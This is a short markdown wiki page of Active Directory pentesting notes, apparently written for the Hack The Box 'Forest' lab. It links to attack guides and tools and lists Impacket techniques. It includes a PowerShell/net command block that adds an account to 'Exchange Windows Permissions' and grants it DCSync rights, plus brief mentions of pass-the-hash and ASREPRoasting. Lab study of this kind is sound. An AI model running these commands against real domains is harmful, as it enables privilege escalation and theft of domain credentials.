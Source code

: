 ```yaml
---
layout: wiki
title: Internals - Active Directory Resources
cate1: Internal
cate2: Active Directory
description: Notes about Active Directory
keywords: Internals
---
```


# Active Directory Resources
 - [ASREPRoasting via Impacket](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast)
 - [PowerView (Deprecated since 2021)](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
  -  ```. .\powerview.ps1```
 - [BloodHound CE](https://github.com/SpecterOps/BloodHound)
 - **WriteDACL**
   - [WriteDACL - BloodHound](https://support.bloodhoundenterprise.io/hc/en-us/articles/17312765477787-WriteDacl)
 - [Abusing Active Directory ACLs/ACEs](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse)
 - [NTLMRelay]([https://www.thehacker.recipes/ad/movement/ntlm/relay](https://en.hackndo.com/ntlm-relay/))
 - [DCSync - secretsdump](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync)
  - **With PowerView**:
    ```
    whoami /all
    Add-ADGroupMember -Identity "Exchange Windows Permissions" -members svc-alfresco
    net group "Exchange Windows Permissions" /add svc-alfresco
    Add-DomainObjectAcl -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity svc-alfresco -Rights DCSync
    Add-ObjectACL -PrincipalIdentity test123 -Credential $cred -Rights DCSync
    Get-DomainUser -Identity svc-alfresco
    Get-ObjectAcl -DistinguishedName "DC=htb,DC=local" -ResolveGUIDs | Where-Object { $_.IdentityReference -match "svc-alfresco" }
    ```

## Impacket Tools
  - **PSExec**
   - Shell access via SMB shares (Pass the Hash) 
  - **GetNPUsers**
   - Kerberos Pre-authentication disabled (ASREPRoasting)
 
## Resources
 - [The Hacker Recipes](https://www.thehacker.recipes/)
